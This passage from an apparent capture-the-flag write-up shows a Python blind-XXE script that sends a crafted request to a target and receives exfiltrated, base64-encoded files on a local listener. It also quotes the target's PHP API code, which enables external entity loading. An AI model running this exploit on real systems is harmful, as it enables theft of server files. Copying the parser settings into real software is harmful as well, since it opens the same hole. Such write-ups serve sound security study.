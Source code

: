 ```python
	dtd_file.write(dtd)
	dtd_file.close()

	rec_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	rec_sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	rec_sock.bind((HOST, PORT))
	rec_sock.listen()	

	send_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	send_sock.connect((TARGET_HOST, TARGET_PORT))
	send_sock.send(final_req)
	send_sock.close()

	data_rec = b''
	conn, addr = rec_sock.accept()
	conn.settimeout(1)
	try:
		while True:
			data = conn.recv(1024)
			if not data:
				break
			data_rec += data

	except socket.timeout:
		pass

	rec_sock.close()
	data_rec = data_rec.decode('utf-8')

	match = re.search(r"GET \/dtd.xml\?(.*) HTTP\/1.0", data_rec)
	if not match:
		print("[-] no such file exists D:")
		continue
	encoded = match[1]

	encoded = encoded.encode()
	result = base64.b64decode(encoded).decode('utf-8').replace("\\n", "\n")
	print(result)
```

There's a short delay in-between files, but otherwise it works. Just start a Python HTTP server in another terminal, and there will be GET requests sent to that server. 

### File Enum --> Port 4 LFI

For this, `nmap` stated that this was an `nginx` server, so I took a look at those files. However, reading `/etc/nginx/sites-available/default` took too long.

A lucky guess gave me `/var/www/api/index.php` as a readable file:

```php
<?php
        header('Content-Type:application/json;charset=utf-8');
        header('Server: Fulcrum-API Beta');
        libxml_disable_entity_loader (false);
        $xmlfile = file_get_contents('php://input');
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile,LIBXML_NOENT|LIBXML_DTDLOAD);
        $input = simplexml_import_dom($dom);
        $output = $input->Ping;
        //check if ok
        if($output == "Ping")
        {
                $data = array('Heartbeat' => array('Ping' => "Ping"));
        }else{
```